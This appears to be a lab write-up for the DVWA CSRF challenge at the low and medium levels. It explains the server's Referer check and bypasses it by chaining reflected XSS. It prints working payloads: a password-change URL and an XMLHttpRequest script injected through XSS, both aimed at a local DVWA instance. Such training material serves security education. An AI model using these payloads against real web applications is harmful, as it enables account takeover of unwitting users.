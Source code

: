 using it, we can change password to a different password (password1) only opening payload URL via browser.

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

the same payload can be injected in a javascript code stored in another web page, but it can't work if the website used a **CORS** mechanism (Cross-origin resource sharing).

<details><summary>Cross-origin resource sharing (CORS)</summary></details>

## Medium

<figure><img src="../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

* There's a classic control of input text submitted
* Check if the HTTP\_REFERER request has the same name and origin of name server (request isn't sent by an external source)
* Check the match between the new password and the confirmation password
* In the end, there's generate feedback for the end user.

<figure><img src="../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>

If the HTTP\_REFERER is the same of the server name: csrf in our case, there're not problem;

while, using the same payload of level low (that has a different origin), HTTP\_REFERER link is not generated and we can't change password.

```url
localhost/DVWA/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change#
```

<figure><img src="../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

#### Payload

To exploit it, is necessary have an HTTP\_REFERER request with the same name server, then we can use XSS Reflected attack redirecting the attacker to the desired page, where it's run a malicious javascript code.

We can try to inject an example of javascript code such as:&#x20;

```html
<Script> alert("Hello World"); </Script>
```

into XSS Reflected section\


<figure><img src="../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure></div>

Very well, using this XSS we can trigger the malicious password change request with the following XSS script:

```html
<Script> var xmlHttp = new XMLHttpRequest(); var url = "http://localhost/DVWA//vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change"; xmlHttp.open("GET", url, false); xmlHttp.send(null); </Script>
```
